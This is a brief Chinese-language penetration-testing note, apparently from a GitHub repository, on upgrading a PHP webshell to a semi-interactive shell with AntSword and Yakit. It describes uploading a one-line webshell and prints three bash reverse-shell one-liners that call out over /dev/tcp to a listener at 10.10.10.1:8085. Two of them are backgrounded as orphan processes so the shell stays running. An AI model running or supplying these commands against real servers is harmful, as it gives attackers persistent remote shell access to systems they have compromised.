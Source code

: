 # shell工具

## 蚁剑 + yakit（半交互）

场景：php 上传一句话木马，中国蚁剑连接成功，启用虚拟终端。



yakit 打开端口监听器

![image-20250228144415998](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228144415998.png)



yakit 代码生成器，生成好代码。

![image-20250228144520351](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228144520351.png)

```
/bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1
```



利用 Linux 孤儿进程的特性，让进程在后台常驻。

```
/bin/bash -c '(/bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1) & '
```

```
/bin/bash -c \"( /bin/bash -i >& /dev/tcp/10.10.10.1/8085 0>&1 ) & \"
```



在蚁剑的虚拟终端中执行代码。

![image-20250228155651062](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228155651062.png)



yakit 上就可以使用了

![image-20250228155716709](./images/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7.assets/image-20250228155716709.png)





